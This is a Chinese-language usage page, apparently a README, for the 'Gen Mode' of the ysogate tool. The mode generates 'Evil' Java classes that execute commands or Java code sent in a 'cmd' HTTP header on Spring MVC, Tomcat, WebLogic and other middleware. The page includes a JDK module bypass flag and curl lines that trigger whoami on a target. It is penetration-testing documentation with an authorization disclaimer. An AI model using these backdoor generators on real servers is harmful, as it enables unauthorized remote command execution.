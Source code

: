 # Gen Mode

Gen Mode用于生成恶意类，支持多种中间件/框架的命令执行和代码执行模板。生成的类可以用于安全测试和漏洞研究。

## 基本用法

```bash
java -jar ysogate-[version]-all.jar -m gen [OPTIONS]
```

## 命令行选项

```bash
[root]#~  Gen Mode Options:
 -bypass                   ByPass JDK Module
 -f,--format <arg>         Output format
 -h,--help                 Show help message
 -m,--mode <arg>           Operation mode: 'payload' or 'jndi' or 'gen'
 -name,--classname <arg>   Evil Class Name
 -s,--sink <arg>           Evil sink template
 -t,--type <arg>           Middleware type
```

## 使用示例

### 基本用法

生成Spring MVC的命令执行回显：

```bash
java -jar ysogate-[version]-all.jar -m gen -t springmvc -s CmdExec -name org.springframework.expression.Evil -bypass
```

指定输出格式：

```bash
java -jar ysogate-[version]-all.jar -m gen -t springmvc -s CmdExec -name org.springframework.expression.Evil -f base64
```

## 支持的中间件/框架及执行模式

| 中间件/框架 | 执行模式          |
| ----------- | ----------------- |
| springmvc   | CmdExec，CodeExec |
| tomcat      | CmdExec，CodeExec |
| resin       | CmdExec，CodeExec |
| weblogic    | CmdExec，CodeExec |
| jetty       | CmdExec，CodeExec |
| websphere   | CmdExec，CodeExec |
| undertow    | CmdExec，CodeExec |
| glassfish   | CmdExec，CodeExec |
| struts2     | CmdExec，CodeExec |

## 模板说明

### CmdExec (命令执行)

生成的类会在请求中查找特定的Header（默认为"cmd"），执行其中的命令并返回结果。

使用示例：
```bash
# 生成类
java -jar ysogate-[version]-all.jar -m gen -t springmvc -s CmdExec -name org.springframework.expression.Evil -bypass

# 在请求中添加Header执行命令
curl -H "cmd: whoami" http://target/
```

### CodeExec (代码执行)

生成的类会在请求中查找特定的Header（默认为"cmd"），将其中的内容作为Java代码执行。

使用示例：
```bash
# 生成类
java -jar ysogate-[version]-all.jar -m gen -t springmvc -s CodeExec -name org.springframework.expression.Evil -bypass

# 在请求中添加Header执行代码
curl -H "cmd: java.lang.Runtime.getRuntime().exec(\"whoami\")" http://target/
```

## 参数说明

- `-t, --type`: 指定目标中间件/框架类型
- `-s, --sink`: 指定执行模式（CmdExec或CodeExec）
- `-name, --classname`: 指定生成的恶意类名
- `-bypass`: 绕过JDK模块系统限制
- `-f, --format`: 指定输出格式（默认为base64）
- `-h, --help`: 显示帮助信息

## 安全使用说明

⚠️ **重要提醒**：本工具仅面向**合法授权**的安全测试使用，请勿用于非法目的。

使用本工具进行安全测试时，请确保：
1. 已获得目标系统的明确授权
2. 仅在授权范围内进行测试
3. 遵守相关法律法规